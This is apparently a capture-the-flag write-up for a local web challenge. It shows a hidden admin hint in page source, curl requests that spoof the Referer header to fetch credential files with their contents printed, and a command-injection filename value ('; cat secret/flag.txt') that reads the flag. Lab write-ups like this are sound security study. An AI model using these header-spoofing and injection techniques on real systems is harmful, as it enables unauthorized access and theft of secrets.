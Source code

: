 # Slowly Downward #
viewing page source of /SMALL_THOUGHTS.html reveals <div id="ADMIN">username@text/credentials/user.txt password@text/credentials/pass.txt</div>

going to http://127.0.0.1:5000/text/credentials/user.txt or http://127.0.0.1:5000/text/credentials/pass.txt returns
Forbidden
You don't have the permission to access the requested resource. URL root does not match /abit.html.

```
curl -v -H "Referer: http://127.0.0.1:5000/abit.html" http://127.0.0.1:5000/text/credentials/user.txt
*   Trying 127.0.0.1:5000...
* Connected to 127.0.0.1 (127.0.0.1) port 5000
> GET /text/credentials/user.txt HTTP/1.1
> Host: 127.0.0.1:5000
> User-Agent: curl/8.4.0
> Accept: */*
> Referer: http://127.0.0.1:5000/abit.html
>
< HTTP/1.1 200 OK
< Server: Werkzeug/3.0.2 Python/3.12.2
< Date: Mon, 08 Apr 2024 22:14:41 GMT
< Content-Disposition: inline; filename=user.txt
< Content-Type: text/plain; charset=utf-8
< Content-Length: 5
< Last-Modified: Mon, 08 Apr 2024 19:46:39 GMT
< Cache-Control: no-cache
< ETag: "1712605599.142378-5-408426695"
< Date: Mon, 08 Apr 2024 22:14:41 GMT
< Connection: close
<
4dm1n* Closing connection

curl -v -H "Referer: http://127.0.0.1:5000/abit.html" http://127.0.0.1:5000/text/credentials/pass.txt
*   Trying 127.0.0.1:5000...
* Connected to 127.0.0.1 (127.0.0.1) port 5000
> GET /text/credentials/pass.txt HTTP/1.1
> Host: 127.0.0.1:5000
> User-Agent: curl/8.4.0
> Accept: */*
> Referer: http://127.0.0.1:5000/abit.html
>
< HTTP/1.1 200 OK
< Server: Werkzeug/3.0.2 Python/3.12.2
< Date: Mon, 08 Apr 2024 22:14:58 GMT
< Content-Disposition: inline; filename=pass.txt
< Content-Type: text/plain; charset=utf-8
< Content-Length: 23
< Last-Modified: Mon, 08 Apr 2024 19:46:42 GMT
< Cache-Control: no-cache
< ETag: "1712605602.8808155-23-403380415"
< Date: Mon, 08 Apr 2024 22:14:58 GMT
< Connection: close
<
p4ssw0rd1sb0dy5n4tch3r5* Closing connection
```

going to /abit.html and entering credentials above gives access to view unpublished text files
```
arbiter.txt; cat secret/flag.txt
```
reveals flag